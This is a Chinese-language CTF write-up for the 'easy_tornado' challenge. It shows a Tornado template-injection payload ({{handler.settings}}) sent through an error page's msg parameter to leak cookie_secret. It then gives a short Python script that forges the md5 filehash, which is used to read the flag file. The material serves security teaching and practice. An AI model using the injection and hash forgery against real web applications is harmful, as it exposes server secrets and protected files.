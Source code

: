 ```yaml
---
title: 护网杯——easy_tornado
date: 2020-03-24 16:50:54
id: 20200324165054
tags: 
	- CTF
	- Web_wp
categories: 网络安全
---
```


首先我们打开网页，发现三个链接。

![image-20200324165348081](https://superj.oss-cn-beijing.aliyuncs.com/image-20200324165348081.png)

点击第一个flag.txt，打开提示我们：

![](https://superj.oss-cn-beijing.aliyuncs.com/20200324165534.png)

我们观察url：

```url
http://947550d2-7b15-4f02-9d52-3deb2ec447a9.node3.buuoj.cn/file?filename=/flag.txt&filehash=77e8b02dac1f3d976567bc691476bfcc
```

发现通过get传递两个参数，一个`filename`，一个`filehash`。因此我们可以构造url，访问flag的位置。

```url
http://947550d2-7b15-4f02-9d52-3deb2ec447a9.node3.buuoj.cn/file?filename=/fllllllllllllag&filehash=77e8b02dac1f3d976567bc691476bfcc
```

访问发现返回`Error`。

因此查看另外两个文件的信息。

![](https://superj.oss-cn-beijing.aliyuncs.com/20200324165850.png)

![](https://superj.oss-cn-beijing.aliyuncs.com/20200324165859.png)

发现render，判断这是一个web框架的方法，而下面hints.txt的内容则告诉了我们上面url中的filehash是如何生成的。

现在我们不知道cookie_secret是多少，我们无论通过`F12`，在network中查看，还是抓包分析，都没有发现cookie_secret的值。

现在render这个信息还没有用，那么有没有可能漏洞是出现在这个函数中呐。

我们通过百度题目名`tornado`，发现这是一个python的web框架，坚信了问题是在这个框架上面。

百度`tornado render漏洞`，发现render是通过传递的参数来确定返回的内容，而我们的报错页面正是通过参数来显示的，因此我们可以利用它来返回tornado中的一些定义的对象。

```url
http://947550d2-7b15-4f02-9d52-3deb2ec447a9.node3.buuoj.cn/error?msg={{handler.settings}}
```

返回信息中确定cookie_secret的值为：

```json
'cookie_secret': 'd27d0275-4f9b-45f6-b948-37f6b05c8d42'
```

现在我们可以编写脚本，计算hash值：

```python
# coding=utf-8
from hashlib import md5

cookie_secret = 'd27d0275-4f9b-45f6-b948-37f6b05c8d42'

file_name = '/fllllllllllllag'

file_hash = md5(cookie_secret + md5(file_name).hexdigest())
print(file_hash.hexdigest())

```

我们可以先将`file_name`写为`/file.txt`，执行获得hash值，和原来url中的`filehash`是否一样，判断脚本正确性。

执行脚本得到hash值：

```
a99916bbf8732bd409c33d161d751c90
```

构造url：

```url
http://947550d2-7b15-4f02-9d52-3deb2ec447a9.node3.buuoj.cn/file?filename=/fllllllllllllag&filehash=a99916bbf8732bd409c33d161d751c90
```

访问该url得到flag值。